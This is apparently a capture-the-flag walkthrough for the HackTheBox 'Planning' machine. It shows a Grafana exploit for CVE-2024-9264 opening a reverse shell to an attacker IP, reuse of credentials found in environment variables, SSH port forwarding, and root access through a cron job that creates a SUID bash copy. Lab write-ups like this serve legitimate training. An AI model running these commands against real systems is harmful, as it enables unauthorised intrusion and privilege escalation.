# Planning CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Planning** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Planning). 
---

we see open ports 22 and 80



we can scan for subdomains



we found grafana, we need to add to /etc/hosts

we see login page, where we can login with credentials supplied for machine

we can check the version of grafana



this version is vulnerable to RCE, we can use this script to exploit this `https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit`, we need to supply url, username, password and ip and port for reverse shell, we also need to start our listener

```
python3 grafana.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.X.X --reverse-port 7777
```





after running the script we got hit with shell

we see that we are locked inside docker container



we see some credentials in variables by running `export`



we can try to ssh using those credentials

it worked we have user access and we can grab user flag



after running linpeas we see some open ports, the most interesting seems port 8000



we can forward this ports to our machine using ssh

```
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```



now we can try to access the service running at port 8000

but we need some other credentials

linpeas output found some interesting file `/opt/crontabs/crontab.db`


we see some configuration file in which there is another password



now we can login to service on port 8000 as root and the password we found



we see that we can create custom cron jobs

we can create cron job that will copy bash to /tmp and set SUID flag to it

```
cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash
```



then we can click run now to execute the script



if we check /tmp folder we see rootbash so our script worked

now we can use this command to gain root shell

```
/tmp/rootbash -p
```



we can grab root flag

# MACHINE PWNED
